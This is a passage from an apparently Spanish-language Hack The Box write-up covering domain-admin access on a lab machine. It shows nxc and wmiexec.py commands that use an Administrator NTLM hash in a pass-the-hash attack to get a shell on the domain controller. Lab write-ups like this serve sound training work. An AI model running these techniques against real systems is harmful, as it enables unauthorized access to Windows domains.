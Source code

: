 Validaremos que podemos autenticarnos mediante _**Pass-The-Hash**_ con el hash NTLM del usuario Administrator.

```bash
nxc smb 10.10.10.103 -u 'Administrator' -H 'f6b7160bfc91823792e0ac3a162c9267'
```

<figure><img src="../../../../../.gitbook/assets/3423_vmware_C0e0muBjFi.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos al Domain Controller mediante la herramienta de _**wmiexec**_ realizando _**Pass-The-Hash**_.

Verificamos del acceso correctamente y de la flag de _**root.txt.**_

```bash
wmiexec.py htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```

<figure><img src="../../../../../.gitbook/assets/3421_vmware_zWMEXOvQlK.png" alt=""><figcaption></figcaption></figure>
